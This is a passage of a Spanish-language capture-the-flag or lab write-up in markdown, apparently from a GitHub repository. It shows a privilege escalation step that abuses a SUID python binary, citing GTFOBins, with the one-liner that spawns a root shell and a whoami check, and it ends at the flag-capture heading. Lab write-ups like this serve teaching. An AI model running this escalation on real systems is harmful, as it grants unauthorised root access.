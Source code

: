 <p align="center">
    <img src="Imagenes/23.png" width="1000">
</p>


### 4.2. Explotación y Escalada a Root

Se ejecuta la técnica para obtener una shell como `root`.

**Referencia (GTFOBins.):** https://gtfobins.github.io/gtfobins/python/#suid

**Comando de explotación:**

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

**Verificación:**

```
whoami
```
<p align="center">
    <img src="Imagenes/24.png" width="1000">
</p>



SOMOS ROOT 🚀


---

## 5. CAPTURA DE BANDERAS (FLAGS)
